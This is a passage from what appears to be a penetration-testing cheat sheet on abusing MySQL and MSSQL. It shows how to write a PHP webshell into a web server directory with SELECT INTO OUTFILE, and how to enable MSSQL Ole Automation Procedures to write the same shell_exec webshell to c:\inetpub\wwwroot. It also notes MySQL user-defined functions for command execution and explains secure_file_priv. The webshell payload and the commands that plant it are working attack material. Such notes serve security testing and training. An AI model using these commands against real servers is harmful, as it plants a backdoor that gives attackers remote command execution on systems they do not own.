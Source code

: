 `MySQL` supports [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) which allows us to execute C/C++ code as a function within SQL, there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys). It is not common to encounter a user-defined function like this in a production environment, but we should be aware that we may be able to use it.

### Write Local Files
#### MySQL

Write PHP webshell on writable web server directory
```shell
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
##### Secure File Privileges

In `MySQL`, a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.

`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

```shell
show variables like "secure_file_priv";
```
#### MSSQL

To write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file:
##### Enable Ole Automation Procedures

```shell
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
##### Create a File

```shell
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
